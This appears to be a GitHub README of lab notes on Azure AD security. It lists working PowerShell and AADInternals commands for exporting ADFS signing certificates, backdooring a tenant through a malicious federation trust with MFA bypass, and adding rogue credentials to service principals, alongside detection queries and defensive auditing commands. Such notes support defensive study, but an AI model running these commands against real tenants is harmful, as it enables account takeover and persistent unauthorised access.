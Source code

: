 # AzureAD Security 

Quick notes from lab on Azure AD security  

## Attack

### Export ADFS certificate
Export-AADIntADFSSigningCertificate -filename ADFSSigningCertificate.pfx  

#### More info 

$ADFS = Get-WmiObject -Namespace root/ADFS -Class SecurityTokenService  
$conn = $ADFS.ConfigurationDatabaseConnectionString  
$SQLclient = new-object System.Data.SqlClient.SqlConnection -ArgumentList $conn  
$SQLclient.Open()  
$SQLcmd = $SQLclient.CreateCommand()  
$SQLcmd.CommandText = "SELECT ServiceSettingsData from IdentityServerPolicy.ServiceSettings"  
$SQLreader = $SQLcmd.ExecuteReader()  
$SQLreader.Read() | Out-Null  
$settings=$SQLreader.GetTextReader(0).ReadToEnd()  
$SQLreader.Dispose()  
\[xml\]$xml=$settings  

### Adding a malicious federation trust
Get-AADIntAccessTokenForAADGraph -savetocache                                                                       
ConvertTo-AADIntBackdoor -domain maliciousdomain.com     
get-msoluser | select UserPrincipalName, ImmutableId  
Open-AADIntOffice365Portal -ImmutableID $id -UseBuiltInCertificate -ByPassMFA $true -Issuer ISSUER  

(AuditLogs | where OperationName =~ "Set domain authentication")  
(AuditLogs | where OperationName =~ "Set federation settings on domain" )  

## Adding credentials to a service principle 

### Certificate 
$cert = New-SelfSignedCertificate -dnsname some.domain.com -CertStoreLocation cert:\LocalMachine\My -Provider “Microsoft Enhanced RSA and AES Cryptographic Provider”  
$keyValue = [System.Convert]::ToBase64String($cert.GetRawCertData())   
$sp = get-azureadserviceprincipal -searchstring SEARCHSTRING  
New-AzureADServicePrincipalKeyCredential -objectid $sp.ObjectId -EndDate "01-01-2022 12:00:00" -StartDate "01-03-2021 14:12:00" -CustomKeyIdentifier "Test" -Type AsymmetricX509Cert -Usage Verify -Value $keyValue  
Connect-AzureAD  -Tenant TENANTID -ApplicationID APPID -CertificateThumbprint CERTTHUMBPRINT  

(AuditLogs | where OperationName =~ "Update service principal")
(AuditLogs | where OperationName =~ "Add service principal credentials")

### Password
New-AzureADServicePrincipalPasswordCredential -objectid $sp.ObjectId -EndDate "01-01-2030 12:00:00" -StartDate "04-04-2020 12:00:00"  -Value PASSWORD  

(AuditLogs | where OperationName =~ "Update service principal")
(AuditLogs | where OperationName =~ "Add service principal credentials")

### Create a new service principle 
Get-AzureADServicePrincipal -all $true | Where-Object{$_.KeyCredentials -ne $null}  
$sp = New-AzADServicePrincipal -DisplayName 'MicrosoftSyncShare'  

## Defence 

Install-module azureadpreview
Connect-AzureAD  

Install-module ExchangeOnlineManagement
Connect-ExchangeOnline

Install-module MSOnline
Connect-MsolService  

### Auditing federation trusts
Azure AD  
Get-MsolDomain | Select * / Get-AzureADDomain | Select *  
Get-MsolFederationProperty (need to run this for each domain)  
Exchange Online  
Get-FederationTrust | Format-List
Get-FederatedOrganizationIdentifier -IncludeExtendedDomainInfo  
Get-FederatedOrganizationIdentifier -IncludeExtendedDomainInfo | select-object -expandproperty Domains  

### Auditing service principles
Get-AzureADServicePrincipal  
Get-AzureADServicePrincipal -all $true | Select *  
Get-AzureADServicePrincipal -all $true | Where-Object{$_.KeyCredentials -ne $null} | Select *  
Get-AzureADServicePrincipal -all $true | Where-Object{$_.PasswordCredentials -ne $null} | Select *   

Reference for permissions - https://github.com/mepples21/azureadconfigassessment / https://github.com/mepples21/azureadconfigassessment/blob/master/permissiontable.csv

### Sentinel connectors
AzureActiveDirectory  
SecurityEvents  
Office365  
Microsoft 365 Defender  

### Other useful commands
Get-AADIntLoginInformation -Domain domain.com  
Get-AzureADTenantDetail | Select *  

### CISA Sparrow
https://github.com/cisagov/Sparrow/blob/develop/Sparrow.ps1  
Invoke-WebRequest 'https://github.com/cisagov/Sparrow/raw/develop/Sparrow.ps1' -OutFile 'Sparrow.ps1' -UseBasicParsing  

### Crowdstrike CRT
https://github.com/CrowdStrike/CRT/blob/main/Get-CRTReport.ps1


